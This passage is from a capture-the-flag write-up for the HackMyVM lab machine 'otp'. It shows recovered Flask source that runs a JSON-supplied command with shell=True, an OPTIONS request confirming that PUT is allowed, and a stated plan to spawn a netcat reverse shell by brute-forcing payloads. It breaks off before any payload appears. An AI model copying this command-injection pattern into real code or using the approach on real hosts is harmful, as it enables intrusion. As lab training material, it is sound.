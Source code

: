 ```bash
┌──(root💀K4liR4t)-[~/Documents/HACK_MY_VM/Hard/otp]
└─# curl http://192.168.1.34:5001/SourceCode | base64 -d
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  1216  100  1216    0     0   103k      0 --:--:-- --:--:-- --:--:--  107k
from subprocess import Popen, TimeoutExpired, PIPE
from flask import Flask, jsonify, abort, request

app = Flask(__name__)

@app.route("/", methods=[""])
def index():
    req_json = request.get_json()
    if req_json is None or "" not in req_json:
        abort(400, description="Please provide command in JSON request!")
    proc = Popen(req_json[""], stdout=PIPE, stderr=PIPE, shell=True)
    try:
        outs, errs = proc.communicate(timeout=1)
    except TimeoutExpired:
        proc.kill()
        abort(500, description="The timeout is expired!")
    if errs:
        abort(500, description=errs.decode('utf-8'))
    return jsonify(success=True, message=outs.decode('utf-8'))

@app.errorhandler(400)
def bad_request(error):
    return jsonify(success=False, message=error.description), 400

@app.errorhandler(500)
def server_error(error):
    return jsonify(success=False, message=error.description) , 500
```
Here, we can see that we have to provide a command in a certain key in a JSON body request. Combining with the information we have previously, i.e. payloads, we can guess, that’s the way to move ahead. So, these lines of code are only similar to that of the running webserver.

Since there is a traditional netcat running on the webserver, we can use it to spawn the reverse shell. I will be listening on port 9001 once again.

Also, only PUT request is allowed on the server.
### Allowed methods
```bash
┌──(root💀K4liR4t)-[~/Documents/HACK_MY_VM/Hard/otp]
└─# curl -i -X OPTIONS http://192.168.1.34:5001
HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Allow: OPTIONS, PUT
Content-Length: 0
Server: Werkzeug/2.0.2 Python/3.9.2
Date: Wed, 22 Dec 2021 23:43:36 GMT
```
Next, I used ffuf to bruteforce payloads as follows. For the correct payload, it is going to spawn a reverse shell.
### bruteforce the payloads
